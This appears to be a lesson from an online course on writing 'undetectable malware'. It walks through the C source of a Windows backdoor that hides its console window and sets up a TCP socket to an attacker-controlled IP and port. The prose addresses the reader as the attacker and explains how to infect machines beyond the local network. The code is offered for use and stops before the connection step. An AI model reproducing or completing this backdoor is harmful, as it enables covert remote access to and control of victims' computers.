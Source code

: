 ```yaml
---
title: Stablishing our socket connection
course: undetectable_malware
section: "Coding our malware"
layout: lesson
---
```


Let's create the socket which will allow us to connect our server and our
client.

The first thing we'll need is to create a structure called "_ServAddr_" whose type
will also be "_sockaddr_in_". In C, a structure is defined and called as it is
known as classes in other languages. We will also define the port in which the
server is being executed, to do so, we'll create a variable called "_ServPort_"
whose type is an "_unsigned int_".

The reason why we are creating these variables, is because we'll need to define
both the IP address and the port in which our backdoor will perform the
connection to send and receive data.

Let's create a new variable called "_ServIP_" whose type will be the pointer to
a char. The code we've written in this lesson so far looks like this:

```c
struct sockaddr_in ServAddr;
unsigned short ServPort;
char *ServIP;
```

> Tip: For those who are not familiriased with C-based languages programming, a
> pointer is a variable that references a block or a space in memory.

The last variable we'll need to create so far, will be called "_wsaData_" and
its type will be "**WSADATA**". **WSADATA** is a structure that contains
information about Windows sockets, so this is something we'll need to stablish a
connection through sockets between server and client.

Once we've properly defined the previously mentioned variables, we'll set to
"_ServIP_" the IP address of the machine that will be sending data to the
infected device, that's you, the attacker. If you are going to be using virtual
machines to perform tests, you must specify the IP address of the device you
will be using, you can see your IP address by executing "`ifconfig`" in a
terminal emulator, there will appear all of the network interfaces available,
you should use the IP address of the interface you will be using when running
the tests. If you will infect a windows Machine that is not in your local
network, you must use your public IP address, you can get it by running
"`curl icanhazip.com`" in a shell.

To assign the value to "_ServIP_", in a new line, type:

```c
ServIP = "[IP ADDRESS]"
```

In the same way, we'll specify the port in which the server will be awaiting for
the connection. To do so, we will need to assign a value to "_ServPort_" too,
but, unlike "_ServIP_" this one is not of type "_char_", this one is "_int_",
which means, that "_ServPort_" will only accept integer numbers. You can choose
the port you want as long as it remains open and is not being used by some other
application. I'll be using the port 50005.

Once we have stored that information into our variables, we'll use the
"_WSAStartup_" inside of an "_if_" statement as it is shown below:

```c
if(WSAStartup()) {
}
```

To this function, we'll need to pass some arguments, the first one is a function
called "**MAKEWORD**", as it is a function, we'll open another pair of brackets,
inside of them we'll write "**2,0**" and the second argument that "_WSAStartup_"
requires is the memory block that "_wsaData_" is in.

> To get the block of memory of a pointer variable, you write "&" before the
> variable name, for example: "&wsaData"

We'll check if "_WSAStartup(MAKEWORD(2,0), &wsaData)_" is different to zero, if
it is we'll exit the program. This if statement looks like this:

```c
if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
  exit(1);
}
```

What we are doing, is check if the value that the function "_WSAStartup_"
returns is equals to zero. If it is, what is inside of the **if** block will not
be executed as the condition is not true, but if it is not zero, what is inside
of the curly brackets ("{}") will be executed, which means, the program will be
stopped.

Once the program was being initialised properly and its execution was not
stopped, we'll create a socket object. To do, we'll go out of the main function
"WinMain" and we will define it there. Why? Simple, because we will need that
same socket outside of the "_WinMain_" function, if we define it there, it would
be only accessible for what is inside of that function.

When we are outside of the function, we will create an integer variable called
"_sock_".

Now, once we have defined our "_sock_" variable, we'll return to the "_WinMain_"
function and right below of our "**if**" comparison we'll assign the following
value to sock:

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
```

We are defining sock as a socket by using the function "_socket_", this function
takes three arguments, the first one "**AF_INET**" represents an IPv4
connection, the second parameter "**SOCK_STREAM**" represents a TCP connection
and the third parameter is "0" as we don't need anything else.

What we will need to do later, is to modify the paramters of "_ServAddr_" as
it inherits the "_sockaddr_in_" values, but before we do that, we'll need to
turn into zeroes all of them, to do so we will need the "_memset_" function.
This function takes three parameters, the first is the memory block that
"_ServAddr_" uses (remember to use the "&"), the second parameter will be "0" as
we want to turn all of the memory space that "_ServAddr_" uses into zeros and
the third, is the size of the memory that is being use by "_ServAddr_" you can
get it by simple passing "**sizeof** _ServAddr_". That line would look like
this:

```c
memset(&ServAddr, 0, sizeof(ServAddr));
```

Now let's add custom values to the "_ServAddr_" variables (to access to them
we'll need to use a dot "." after the variable name). The first is
"_sin_family_" whose value will be set to "**AF_INET**", the second one is
"_sin_addr.s_addr_" whose value will be the server's IP address. We can't use
our variable "_ServIP_" as it is an string and not an IP address (that our C
program can recognise), so we'll convert it using a function called "_inet_addr_"
and pass "_ServIP_" as argument. The last parameter will be "_sin_port_" and as
it happened with the IP address we can't simply use our variable "_ServPort_",
instead of using "_inet_addr_" we will use "_htons_" and we will pass
"_ServPort_" as argument, in that way, our C program will recognise and be able
to work with our port.

Our code so far looks like this:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);
}
```
